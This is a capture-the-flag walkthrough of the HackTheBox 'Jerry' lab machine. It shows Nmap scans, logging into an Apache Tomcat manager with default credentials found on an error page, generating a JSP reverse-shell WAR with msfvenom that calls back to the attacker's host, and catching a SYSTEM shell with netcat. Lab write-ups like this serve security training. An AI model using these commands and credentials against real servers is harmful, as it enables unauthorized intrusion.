








HackTheBox - jerry [no Metasploit]
Reconnaissance
Let’s start with a usual Nmap scan for services on TCP ports:
kali@kali:~$ export TARGET=10.10.10.95
kali@kali:~$ nmap -sV -sC -p- -O -oA nmap_tcp $TARGET
Results of the TCP scan:
Nmap scan report for 10.10.10.95
Host is up (0.16s latency).
Not shown: 65534 filtered ports
PORT STATE SERVICE VERSION
8080/tcp open http Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows Server 2012 (91%), Microsoft Windows Server 2012 or Windows Server 2012 R2 (91%), Microsoft Windows Server 2012 R2 (91%), Microsoft Windows 7 Professional (87%), Microsoft Windows 8.1 Update 1 (86%), Microsoft Windows Phone 7.5 or 8.0 (86%), Microsoft Windows 7 or Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 or Windows 8.1 (85%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (85%)
No exact OS matches for host (test conditions non-ideal).
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 254.72 seconds
Only one port, I guess… it’s full web server for this one… Great, my speciality /s :D
Let’s start a scan on UDP while we go have a look at the web server then… (spoiler: nothing on there)
# nmap -sU -p- -oA nmap_udp $TARGET
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-23 03:19 EDT
Stats: 0:03:14 elapsed; 0 hosts completed (1 up), 1 undergoing UDP Scan
UDP Scan Timing: About 3.31% done; ETC: 04:57 (1:34:25 remaining)
Nmap scan report for 10.10.10.95
Host is up (0.089s latency).
All 65535 scanned ports on 10.10.10.95 are open|filtered
Nmap done: 1 IP address (1 host up) scanned in 5847.36 seconds
| Port | Service | Version | Vuln? |
|---|---|---|---|
| 8080/tcp | http | Apache Tomcat 7.0.88/Coyote JSP engine 1.1 | default credentials + manager app |
Initial Foothold
8080 Apache Tomcat
Let’s start by visiting the website: http://10.10.10.95:8080. There’s the default start page for the Apache Tomcat/7.0.88 (as Nmap already told us).

Clicking around, Manager App spawns a login prompt:

Hitting cancel re-route us on a very verbose 401 page:
with… a username and password: tomcat:s3cret. And you know what? They actually work, we have access to the Application Manager:

Exploitation
There’s a lot going on that Tomcat Web Application Manager page. First, we can add to our information stash the OS name: Windows Server 2012 R2 and its architecture: amd64

Next, that WAR file to deploy with a file upload sounds very interesting. What if we craft a reverse shell and upload it there?
Does msfvenom supports war files…? It sure does!
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.13 LPORT=4444 -f war > shell.war
Payload size: 1093 bytes
Final size of war file: 1093 bytes
Beepidiboop, we have a reverse shell file! Let’s go try that WAR upload feature now:

We can see our shell application was deployed and is available like any other app:

Start a netcat listener on the host:
nc -lvp 4444
Now, click on the shell link: http://10.10.10.95:8080/shell/ to trigger a connect back on our netcat listener!
Connection from 10.10.10.95:49192
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.
C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system
And we’re directly nt authority\system. Huh, I guess that’s it then…?
C:\apache-tomcat-7.0.88>dir /s C:\user.txt
dir /s C:\user.txt
Volume in drive C has no label.
Volume Serial Number is FC2B-E489
Ah, no user.txt? Looks like it’s an older machine with another flag format, it can be found in the Administrator’s Desktop:
C:\Users\Administrator\Desktop\flags>dir
dir
Volume in drive C has no label.
Volume Serial Number is FC2B-E489
Directory of C:\Users\Administrator\Desktop\flags
06/19/2018 06:09 AM <DIR> .
06/19/2018 06:09 AM <DIR> ..
06/19/2018 06:11 AM 88 2 for the price of 1.txt
1 File(s) 88 bytes
2 Dir(s) 27,601,944,576 bytes free
Take-aways
- Default credentials should never be left unmodified on a service exposed (internally or externally).
- Tomcat probably doesn’t need to run as
nt authority\system
